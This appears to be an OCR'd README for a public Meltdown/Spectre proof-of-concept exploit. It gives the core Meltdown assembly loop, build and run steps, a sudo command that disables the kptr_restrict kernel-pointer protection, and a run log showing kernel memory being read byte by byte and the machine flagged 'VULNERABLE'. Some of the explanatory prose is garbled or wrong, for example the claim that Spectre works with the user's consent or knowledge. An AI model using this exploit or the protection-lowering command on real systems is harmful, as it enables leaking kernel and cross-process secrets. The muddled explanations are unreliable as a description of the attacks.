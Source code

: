 INTEL PROCESSOR SPECTRE EXPLOIT SOURCE CODE -  Spectre-Meltdown.c

Build with: cc Spectre-Meltdown.c  and run with ./output.o


Spectre breaks the isolation between different applications. It allows an attacker to trick error-free programs, which follow best practices, into leaking their secrets. In fact, the safety checks of said best practices actually increase the attack surface and may make applications more susceptible to Spectre

Spectre is slightly different from Meltdown. This is so because it can allow hackers to fool the applications (even the stable versions of the respective application) running on a machine to give up secret information from the Kernal module of the operating system to the hacker with the consent or knowledge of the user.





# MELTDOWN EXPLOIT 
INTEL PROCESSOR MELTDOWN EXPLOIT SOURCE CODE"



The Intel Processor core instruction sequence of Meltdown: -

; rcx = kernel address

; rbx = probe array

retry:

mov al, byte [rcx]

shl rax, 0xc

jz retry

mov rbx, qword [rbx + rax]



Meltdown breaks the most fundamental isolation between user applications and the operating system. This attack allows a program to access the memory, and thus also the secrets, of other programs and the operating system.

This vulnerability would allow malicious attacks to take place when a hacker could break the differentiating factor between the applications run by the user and the Core Memory of the Computer.

Speculative optimizations execute code in a non-secure manner leaving data
traces in microarchitecture such as cache.

Refer to the paper by Lipp et. al 2017 for details: https://meltdownattack.com/meltdown.pdf.

Can only dump `linux_proc_banner` at the moment, since requires accessed memory
to be in cache and `linux_proc_banner` is cached on every read from
`/proc/version`. Might work with `prefetch`.


Because your system may be preventing the program from reading kernel symbols in /proc/kallsyms due to /proc/sys/kernel/kptr_restrict set to 1. The following command will do the tricky:

sudo sh -c "echo 0 > /proc/sys/kernel/kptr_restrict"


Build with `make`, run with `./run.sh`.

Can't defeat KASLR yet, so you may need to enter your password to find
`linux_proc_banner` in the `/proc/kallsyms` (or do it manually).

Flush+Reload and target array approach taken from spectre paper https://spectreattack.com/spectre.pdf
implemented following clues from https://cyber.wtf/2017/07/28/negative-result-reading-kernel-memory-from-user-mode/.

Pandora's box is open.

Result:
```
$ make
cc -O2 -msse2   -c -o meltdown.o meltdown.c
cc   meltdown.o   -o meltdown
$ ./run.sh 
looking for linux_proc_banner in /proc/kallsyms
protected. requires root
+ find_linux_proc_banner /proc/kallsyms sudo
+ sudo awk 
	/linux_proc_banner/ {
		if (strtonum("0x"$1))
			print $1;
		exit 0;
	} /proc/kallsyms
+ linux_proc_banner=ffffffffa3e000a0
+ set +x
cached = 29, uncached = 271, threshold 88
read ffffffffa3e000a0 = 25 %
read ffffffffa3e000a1 = 73 s
read ffffffffa3e000a2 = 20  
read ffffffffa3e000a3 = 76 v
read ffffffffa3e000a4 = 65 e
read ffffffffa3e000a5 = 72 r
read ffffffffa3e000a6 = 73 s
read ffffffffa3e000a7 = 69 i
read ffffffffa3e000a8 = 6f o
read ffffffffa3e000a9 = 6e n
read ffffffffa3e000aa = 20  
read ffffffffa3e000ab = 25 %
read ffffffffa3e000ac = 73 s
read ffffffffa3e000ad = 20  
read ffffffffa3e000ae = 28 (
read ffffffffa3e000af = 62 b
read ffffffffa3e000b0 = 75 u
read ffffffffa3e000b1 = 69 i
read ffffffffa3e000b2 = 6c l
read ffffffffa3e000b3 = 64 d
read ffffffffa3e000b4 = 64 d
read ffffffffa3e000b5 = 40 @
VULNERABLE
VULNERABLE ON
4.10.0-42-generic #46~16.04.1-Ubuntu SMP Mon Dec 4 15:57:59 UTC 2017 x86_64
processor	: 0
vendor_id	: GenuineIntel
cpu family	: 6
model		: 158
model name	: Intel(R) Core(TM) i7-7700HQ CPU @ 2.80GHz
stepping	: 9
microcode	: 0x5e
cpu MHz		: 3499.316
cache size	: 6144 KB
physical id	: 0
```

# Does not work

If it compiles but fails with `Illegal instruction` then either your hardware
is very old or it is a VM. Try compiling with:

```shell
$ make CFLAGS=-DHAVE_RDTSCP=0 clean all
```


